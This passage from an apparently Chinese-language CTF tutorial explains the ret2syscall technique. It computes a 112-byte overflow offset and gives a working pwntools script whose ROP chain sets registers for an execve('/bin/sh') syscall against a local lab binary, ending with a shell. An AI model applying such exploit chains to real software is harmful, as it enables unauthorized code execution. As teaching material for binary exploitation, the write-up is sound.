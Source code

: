 0xdc - 0x6c = 112，因此payload组成如下：

**112字节垃圾数据** + eax返回地址 + eax寄存器的值 + 剩下三个寄存器的返回地址 + 0x0 + 0x0 + ebx寄存器的值 + int 0x80地址

> 注意此时为什么是112字节垃圾数据，因为我们要将ebp之前的栈全部填满，才开始覆盖eax寄存器

接下来就可以返回pwntools编写exp

```python
from pwn import *

eax_ret_addr = 0x080bb196					#eax的返回地址
eax = 0xb									#eax寄存器的值
edx_ecx_ebx_ret_addr = 0x0806eb90			#edx，ecx，ebx的返回地址，注意三个寄存器的顺序，虽然赋值顺序不定但位置要对
edx = 0x0									#edx寄存器的值
ecx = 0x0									#ecx寄存器的值
ebx_addr = 0x080be408						#ebx寄存器的地址值->/bin/sh
int_addr = 0x08049421						#int 0x80指令的地址

payload = b'A' * 112
payload += p32(eax_ret_addr)
payload += p32(eax)
payload += p32(edx_ecx_ebx_ret_addr)
payload += p32(edx) + p32(ecx)
payload += p32(ebx_addr)
payload += p32(int_addr)

io = process("./ret2syscall")
io.sendline(payload)
io.interactive()
```

成功调用shell

![image-20230319164936837](image/image-20230319164936837.png)
